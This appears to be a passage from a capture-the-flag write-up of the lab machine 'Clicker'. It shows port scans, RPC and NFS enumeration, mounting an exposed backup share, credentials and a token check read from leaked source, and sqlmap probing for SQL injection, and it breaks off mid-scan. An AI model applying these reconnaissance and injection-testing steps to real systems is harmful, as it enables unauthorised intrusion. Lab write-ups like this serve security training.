






## Initial Enumeration

As usual we are given information about the machine OS type(LINUX) and the entry point to the IP: 10.10.11.232.

I will engage Rustscan and start by checking the all the 65k ish open ports on the machine:

&nbsp;

```
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 89:d7:39:34:58:a0:ea:a1:db:c1:3d:14:ec:5d:5a:92 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO8nDXVOrF/vxCNHYMVULY8wShEwVH5Hy3Bs9s9o/WCwsV52AV5K8pMvcQ9E7JzxrXkUOgIV4I+8hI0iNLGXTVY=
|   256 b4:da:8d:af:65:9c:bb:f0:71:d5:13:50:ed:d8:11:30 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAjDCjag/Rh72Z4zXCLADSXbGjSPTH8LtkbgATATvbzv
80/tcp    open  http     syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://clicker.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
111/tcp   open  rpcbind  syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34254/udp6  mountd
|   100005  1,2,3      34919/tcp   mountd
|   100005  1,2,3      37113/tcp6  mountd
|   100005  1,2,3      50795/udp   mountd
|   100021  1,3,4      37813/tcp6  nlockmgr
|   100021  1,3,4      39974/udp   nlockmgr
|   100021  1,3,4      43841/tcp   nlockmgr
|   100021  1,3,4      51288/udp6  nlockmgr
|   100024  1          45601/udp6  status
|   100024  1          50051/tcp   status
|   100024  1          54384/udp   status
|   100024  1          57661/tcp6  status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 63 3 (RPC #100227)
34919/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
37875/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
43841/tcp open  nlockmgr syn-ack ttl 63 1-4 (RPC #100021)
50051/tcp open  status   syn-ack ttl 63 1 (RPC #100024)
54263/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=12/4%OT=22%CT=%CU=44535%PV=Y%DS=2%DC=T%G=N%TM=656DA38B%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 46.234 days (since Thu Oct 19 06:24:45 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   116.75 ms 10.10.16.1
2   54.69 ms  10.10.11.232

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:01
Completed NSE at 11:01, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:01
Completed NSE at 11:01, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:01
Completed NSE at 11:01, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.86 seconds
           Raw packets sent: 67 (4.544KB) | Rcvd: 52 (3.600KB)
```

Ok so far we can expect the website pointing to clicker.htb and NFS active on the machine!

But what about possible open service on the UDP instead, to keep it easy I will scan only the first 1k ports:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nmap -sU -F 10.10.11.232                                                                                                                                                                                                               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-04 11:04 CET
Stats: 0:00:34 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 45.50% done; ETC: 11:05 (0:00:41 remaining)
Stats: 0:00:36 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 46.50% done; ETC: 11:05 (0:00:41 remaining)
Stats: 0:00:57 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 66.80% done; ETC: 11:05 (0:00:28 remaining)
Stats: 0:00:58 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 67.80% done; ETC: 11:05 (0:00:28 remaining)
Stats: 0:01:47 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 99.99% done; ETC: 11:06 (0:00:00 remaining)
Nmap scan report for 10.10.11.232
Host is up (0.034s latency).
Not shown: 98 closed udp ports (port-unreach)
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
111/udp open          rpcbind

Nmap done: 1 IP address (1 host up) scanned in 111.01 seconds
```

Ok not much except RPC(mostly likely goes hand-to-hand with NFS service), but before moving I will add clicker.htb to my HOSTS file and start to fuzz the singular services.

* * *

## RPC

I suggest to start by poking the RPC service running on the port TCP/111. Most likely won't lead us anywhere but it is worth testing anyway:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# rpcinfo clicker.htb
   program version netid     address                service    owner
    100000    4    tcp6      ::.0.111               portmapper superuser
    100000    3    tcp6      ::.0.111               portmapper superuser
    100000    4    udp6      ::.0.111               portmapper superuser
    100000    3    udp6      ::.0.111               portmapper superuser
    100000    4    tcp       0.0.0.0.0.111          portmapper superuser
    100000    3    tcp       0.0.0.0.0.111          portmapper superuser
    100000    2    tcp       0.0.0.0.0.111          portmapper superuser
    100000    4    udp       0.0.0.0.0.111          portmapper superuser
    100000    3    udp       0.0.0.0.0.111          portmapper superuser
    100000    2    udp       0.0.0.0.0.111          portmapper superuser
    100000    4    local     /run/rpcbind.sock      portmapper superuser
    100000    3    local     /run/rpcbind.sock      portmapper superuser
    100005    1    udp       0.0.0.0.182.249        mountd     superuser
    100005    1    tcp       0.0.0.0.147.243        mountd     superuser
    100005    1    udp6      ::.229.251             mountd     superuser
    100005    1    tcp6      ::.160.119             mountd     superuser
    100005    2    udp       0.0.0.0.164.21         mountd     superuser
    100005    2    tcp       0.0.0.0.211.247        mountd     superuser
    100005    2    udp6      ::.178.132             mountd     superuser
    100005    2    tcp6      ::.211.227             mountd     superuser
    100005    3    udp       0.0.0.0.198.107        mountd     superuser
    100005    3    tcp       0.0.0.0.136.103        mountd     superuser
    100005    3    udp6      ::.133.206             mountd     superuser
    100024    1    udp       0.0.0.0.212.112        status     116
    100024    1    tcp       0.0.0.0.195.131        status     116
    100024    1    udp6      ::.178.33              status     116
    100005    3    tcp6      ::.144.249             mountd     superuser
    100024    1    tcp6      ::.225.61              status     116
    100003    3    tcp       0.0.0.0.8.1            nfs        superuser
    100003    4    tcp       0.0.0.0.8.1            nfs        superuser
    100227    3    tcp       0.0.0.0.8.1            nfs_acl    superuser
    100003    3    tcp6      ::.8.1                 nfs        superuser
    100003    4    tcp6      ::.8.1                 nfs        superuser
    100227    3    tcp6      ::.8.1                 nfs_acl    superuser
    100021    1    udp       0.0.0.0.156.38         nlockmgr   superuser
    100021    3    udp       0.0.0.0.156.38         nlockmgr   superuser
    100021    4    udp       0.0.0.0.156.38         nlockmgr   superuser
    100021    1    tcp       0.0.0.0.171.65         nlockmgr   superuser
    100021    3    tcp       0.0.0.0.171.65         nlockmgr   superuser
    100021    4    tcp       0.0.0.0.171.65         nlockmgr   superuser
    100021    1    udp6      ::.200.88              nlockmgr   superuser
    100021    3    udp6      ::.200.88              nlockmgr   superuser
    100021    4    udp6      ::.200.88              nlockmgr   superuser
    100021    1    tcp6      ::.147.181             nlockmgr   superuser
    100021    3    tcp6      ::.147.181             nlockmgr   superuser
    100021    4    tcp6      ::.147.181             nlockmgr   superuser
```

From this list we can only see that the NFS is running so I guess we can move forward with enumeration.

* * *

## NFS

Next we should really check that NFS running on the standard TCP/2049 port, and we can start by checking for possible hidden shares:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# showmount -e clicker.htb
Export list for clicker.htb:
/mnt/backups *
```

Nice we have a Backup share, but can we map is as guest user?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# mkdir Clicker                                                                                                                                                                                                                                            

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# mount -t nfs clicker.htb:/mnt/backups /home/aleksandar/Downloads/Clicker/ -o nolock                                                                                                                                                                      

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ll    
total 24
drwxr-xr-x  5 root   root    4096 Aug  3  2022 Certipy_Bloodhound
drwxr-xr-x  2 nobody nogroup 4096 Sep  5 21:19 Clicker
drwxr-xr-x  3 root   root    4096 Sep 22 17:20 OffShore
drwxr-xr-x  3 root   root    4096 Sep 20 16:14 RASTALABS
drwxr-xr-x 91 root   root    4096 Nov 23 20:54 Tools
drwxr-xr-x  3 root   root    4096 Nov 29 10:13 wwwolf-php-webshell

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ll Clicker/                                                                                                                                                                                                                                              
total 2232
-rw-r--r-- 1 root root 2284115 Sep  1 22:27 clicker.htb_backup.zip
```

nice we got a backup, let's try to see if we have write permission?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Clicker]
└─# touch test.txt                                                                                                                                                                                                                                           
touch: cannot touch 'test.txt': Read-only file system
```

No, but let's see of we can get the source from that zip archive.

&nbsp;

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Clicker]
└─# unzip clicker.htb_backup.zip                                                                                                                                                                                                                             
Archive:  clicker.htb_backup.zip
   creating: clicker.htb/
  inflating: clicker.htb/play.php    
  inflating: clicker.htb/profile.php  
  inflating: clicker.htb/authenticate.php  
  inflating: clicker.htb/create_player.php  
  inflating: clicker.htb/logout.php  
   creating: clicker.htb/assets/
  inflating: clicker.htb/assets/background.png  
  inflating: clicker.htb/assets/cover.css  
  inflating: clicker.htb/assets/cursor.png  
   creating: clicker.htb/assets/js/
  inflating: clicker.htb/assets/js/bootstrap.js.map  
  inflating: clicker.htb/assets/js/bootstrap.bundle.min.js.map  
  inflating: clicker.htb/assets/js/bootstrap.min.js.map  
  inflating: clicker.htb/assets/js/bootstrap.bundle.min.js  
  inflating: clicker.htb/assets/js/bootstrap.min.js  
  inflating: clicker.htb/assets/js/bootstrap.bundle.js  
  inflating: clicker.htb/assets/js/bootstrap.bundle.js.map  
  inflating: clicker.htb/assets/js/bootstrap.js  
   creating: clicker.htb/assets/css/
  inflating: clicker.htb/assets/css/bootstrap-reboot.min.css  
  inflating: clicker.htb/assets/css/bootstrap-reboot.css  
  inflating: clicker.htb/assets/css/bootstrap-reboot.min.css.map  
  inflating: clicker.htb/assets/css/bootstrap.min.css.map  
  inflating: clicker.htb/assets/css/bootstrap.css.map  
  inflating: clicker.htb/assets/css/bootstrap-grid.css  
  inflating: clicker.htb/assets/css/bootstrap-grid.min.css.map  
  inflating: clicker.htb/assets/css/bootstrap-grid.min.css  
  inflating: clicker.htb/assets/css/bootstrap.min.css  
  inflating: clicker.htb/assets/css/bootstrap-grid.css.map  
  inflating: clicker.htb/assets/css/bootstrap.css  
  inflating: clicker.htb/assets/css/bootstrap-reboot.css.map  
  inflating: clicker.htb/login.php   
  inflating: clicker.htb/admin.php   
  inflating: clicker.htb/info.php    
  inflating: clicker.htb/diagnostic.php  
  inflating: clicker.htb/save_game.php  
  inflating: clicker.htb/register.php  
  inflating: clicker.htb/index.php   
  inflating: clicker.htb/db_utils.php  
   creating: clicker.htb/exports/
  inflating: clicker.htb/export.php
```

Some Juicy files but do they hold some valuable data?

```
//We have some DB creds?
<?php
session_start();

$db_server="localhost";
$db_username="clicker_db_user";
$db_password="clicker_db_password";
$db_name="clicker";
$mysqli = new mysqli($db_server, $db_username, $db_password, $db_name);
$pdo = new PDO("mysql:dbname=$db_name;host=$db_server", $db_username, $db_password);


//Get a token from Diagnostic file?
<?php
if (isset($_GET["token"])) {
    if (strcmp(md5($_GET["token"]), "ac0e5a6a3a50b5639e69ae6d8cd49f40") != 0) {
        header("HTTP/1.1 401 Unauthorized");
        exit;
    }
}
else {
    header("HTTP/1.1 401 Unauthorized");
    die;
}
```

I guess we can move forward with what we have!

* * *

## HTTP

We know we are in front of a PHP+SQL written page so I will start by creating my own username so I can login into portal, clicking on play.php seems like the page counts how maby clicks you made and then by clicking save I guess we can save that for our user:



Now catching the save request I'm wondering if this might be SQL injectable?

```
GET /save_game.php?clicks=9&level=0 HTTP/1.1
Host: clicker.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://clicker.htb/play.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ka3dfjhnjqaua6nnrqodbu2te8
Connection: close
```

But seems like it's not?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# sqlmap -r save.req --batch --dbs 
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.11#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:34:28 /2023-12-04/

[11:34:28] [INFO] parsing HTTP request from 'save.req'
[11:34:29] [INFO] testing connection to the target URL
got a 302 redirect to 'http://clicker.htb/index.php?msg=Game has been saved!'. Do you want to follow? [Y/n] Y
[11:34:29] [INFO] checking if the target is protected by some kind of WAF/IPS
[11:34:29] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
are you sure that you want to continue with further target testing? [Y/n] Y
[11:34:29] [WARNING] please consider usage of tamper scripts (option '--tamper')
[11:34:29] [INFO] testing if the target URL content is stable
[11:34:29] [WARNING] GET parameter 'clicks' does not appear to be dynamic
[11:34:30] [WARNING] heuristic (basic) test shows that GET parameter 'clicks' might not be injectable
[11:34:30] [INFO] testing for SQL injection on GET parameter 'clicks'
[11:34:30] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:34:31] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[11:34:32] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:34:33] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[11:34:35] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[11:34:36] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[11:34:37] [INFO] testing 'Generic inline queries'
[11:34:38] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[11:34:38] [WARNING] time-based comparison requires larger statistical model, please wait. (done)                                                                                                                                                           
[11:34:39] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[11:34:40] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[11:34:41] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:34:42] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[11:34:43] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[11:34:45] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[11:34:46] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:34:49] [WARNING] GET parameter 'clicks' does not seem to be injectable
[11:34:49] [WARNING] GET parameter 'level' does not appear to be dynamic
[11:34:49] [WARNING] heuristic (basic) test shows that GET parameter 'level' might not be injectable
[11:34:49] [INFO] testing for SQL injection on GET parameter 'level'
[11:34:49] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:34:50] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[11:34:51] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:34:52] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[11:34:53] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[11:34:55] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[11:34:56] [INFO] testing 'Generic inline queries'
[11:34:56] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[11:34:57] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[11:34:58] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[11:34:59] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:35:01] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[11:35:02] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[11:35:03] [INFO] testing 'Oracle AND time-based blind'
[11:35:05] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:35:07] [WARNING] GET parameter 'level' does not seem to be injectable
[11:35:07] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[11:35:07] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times

[*] ending @ 11:35:07 /2023-12-04/
```

Then my next idea is to check for second order SQLi but seems like it's not working? The idea is because when I tried to run sqlmap I could see SQL queries saved into my username result:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# sqlmap -r save.req --batch --dbs --second-url "http://clicker.htb/profile.php" --flush-session 
        ___
       __H__                                                                                                                                                                                                                                                 
 ___ ___[(]_____ ___ ___  {1.7.11#stable}                                                                                                                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                                    
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:39:58 /2023-12-04/

[11:39:58] [INFO] parsing HTTP request from 'save.req'
custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[11:39:58] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[11:39:58] [INFO] flushing session file
[11:39:58] [INFO] testing connection to the target URL
got a 302 redirect to 'http://clicker.htb/index.php?msg=Game has been saved!'. Do you want to follow? [Y/n] Y
[11:39:58] [INFO] checking if the target is protected by some kind of WAF/IPS
[11:39:59] [INFO] testing if the target URL content is stable
[11:39:59] [WARNING] URI parameter '#1*' does not appear to be dynamic
[11:39:59] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[11:40:00] [INFO] heuristic (XSS) test shows that URI parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks
[11:40:00] [INFO] testing for SQL injection on URI parameter '#1*'
[11:40:00] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:40:00] [WARNING] reflective value(s) found and filtering out
[11:40:04] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[11:40:05] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:40:07] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[11:40:09] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[11:40:11] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[11:40:13] [INFO] testing 'Generic inline queries'
[11:40:13] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[11:40:14] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[11:40:16] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[11:40:17] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:40:19] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[11:40:21] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[11:40:23] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[11:40:25] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:40:29] [WARNING] URI parameter '#1*' does not seem to be injectable
[11:40:29] [WARNING] URI parameter '#2*' does not appear to be dynamic
[11:40:29] [WARNING] heuristic (basic) test shows that URI parameter '#2*' might not be injectable
[11:40:30] [INFO] heuristic (XSS) test shows that URI parameter '#2*' might be vulnerable to cross-site scripting (XSS) attacks
[11:40:30] [INFO] testing for SQL injection on URI parameter '#2*'
[11:40:30] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:40:33] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[11:40:34] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:40:36] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[11:40:38] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[11:40:40] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[11:40:42] [INFO] testing 'Generic inline queries'
[11:40:43] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[11:40:44] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[11:40:45] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[11:40:47] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:40:49] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[11:40:51] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
